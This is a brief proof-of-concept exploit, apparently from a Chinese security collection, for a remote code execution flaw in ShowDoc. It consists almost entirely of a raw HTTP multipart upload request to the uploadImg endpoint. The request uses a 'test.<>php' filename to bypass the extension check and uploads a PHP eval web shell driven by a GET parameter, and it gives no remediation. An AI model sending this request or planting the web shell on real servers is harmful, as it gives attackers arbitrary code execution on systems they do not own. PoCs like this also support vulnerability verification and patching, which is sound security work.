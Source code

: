 # ShowDoc 远程代码执行漏洞
Poc：
```
POST /index.php?s=/home/page/uploadImg HTTP/1.1
Host: ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: multipart/form-data; boundary=--------------------------921378126371623762173617
Content-Length: 262

----------------------------921378126371623762173617
Content-Disposition: form-data; name="editormd-image-file"; filename="test.<>php"
Content-Type: text/plain

<?php echo 'vuln_test';@eval($_GET[zxkf])?>
----------------------------921378126371623762173617--
```

![](./exp.png)

 [@bgbing安全](https://mp.weixin.qq.com/s/oPhV-EmKZEDAxyZm4HuzUA)